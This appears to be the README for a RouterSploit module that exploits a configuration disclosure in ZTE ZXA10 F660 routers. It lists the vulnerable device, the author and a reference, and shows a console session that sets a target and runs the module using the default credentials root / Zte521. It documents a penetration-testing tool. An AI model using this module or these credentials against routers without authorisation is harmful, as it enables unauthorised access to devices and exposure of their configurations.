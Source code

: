 # ZTE F660 Config Disclosure

## Description
Module exploits ZTE F660 Config Disclosure.If the target is possible to authentiate to the device.

## Authors
* devilscream # vulnerability discovery & routersploit module

## References
* [http://www.ironbugs.com/2016/02/hack-and-patch-your-zte-f660-routers.html](http://www.ironbugs.com/2016/02/hack-and-patch-your-zte-f660-routers.html)

## Vulnerable devices
* ZTE ZXA10 F660

## Usage
```
rsf > use exploits/zte/f660_config_disclosure
rsf (ZTE F660 Config Disclosure) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target address e.g. 192.168.1.1


Module options:

   Name         Current settings     Description
   ----         ----------------     -----------
   username     root                 Username to authenticate with
   password     Zte521               Password to authenticate with


rsf (ZTE F660 Config Disclosure) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (ZTE F660 Config Disclosure) > run
[*] Running module...
```
